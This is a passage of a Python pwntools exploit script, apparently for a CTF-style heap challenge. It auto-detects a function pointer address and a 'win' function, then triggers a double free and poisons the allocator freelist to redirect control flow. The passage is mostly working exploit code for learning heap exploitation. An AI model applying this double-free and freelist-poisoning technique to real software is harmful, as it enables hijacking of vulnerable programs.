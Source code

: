 ```python
    target_fn_addr = None
    win_addr = None
    
    for line in result.stdout.split('\n'):
        if 'gTarget' in line and 'O' in line:
            parts = line.split()
            if len(parts) >= 1:
                target_fn_addr = int(parts[0], 16)
        elif 'win' in line and 'F' in line and '__TEXT' in line:
            parts = line.split()
            if len(parts) >= 1:
                win_addr = int(parts[0], 16)
    
    if target_fn_addr is None or win_addr is None:
        raise Exception("Automatic address finding failed")
        
    log.info(f"Auto-detected &gTarget.fn address: {hex(target_fn_addr)}")
    log.info(f"Auto-detected win address: {hex(win_addr)}")
    
except Exception as e:
    log.warning(f"Auto-detection failed: {e}")
    # Manual address input
    target_fn_addr = int(input("Enter &gTarget.fn address (e.g., 0x100008090): "), 16)
    win_addr = int(input("Enter win function address (e.g., 0x100000580): "), 16)

def alloc():
    p.sendline(b"alloc")
    return p.recvuntil(b"> ").decode()

def free(idx):
    p.sendline(f"free {idx}".encode())
    return p.recvuntil(b"> ").decode()

def write(idx, data_hex):
    p.sendline(f"write {idx} {data_hex}".encode())
    return p.recvuntil(b"> ").decode()

def call():
    p.sendline(b"call")

log.info("Step 1: Allocating two chunks (A and B)")
print(alloc()) # chunk 0 (A)
print(alloc()) # chunk 1 (B)

log.info("Step 2: Creating dangling pointer by freeing chunk 0 (A)")
print(free(0))

log.info("Step 3: Triggering double-free vulnerability by freeing chunk 0 again")
print(free(0)) # Double free!

log.info(f"Step 4: Poisoning freelist. Writing &gTarget.fn ({hex(target_fn_addr)}) to A's FD")
poison_payload = p64(target_fn_addr).hex()
print(write(0, poison_payload))

log.info("Step 5: Allocating chunks with heap corruption (may cause crash)")
try:
    alloc1 = alloc() # This returns A
    log.info("First allocation successful")
except:
    log.warning("First allocation failed - may crash due to heap corruption")
    log.success("Exploit completed! Heap corruption successfully achieved.")
    return True

```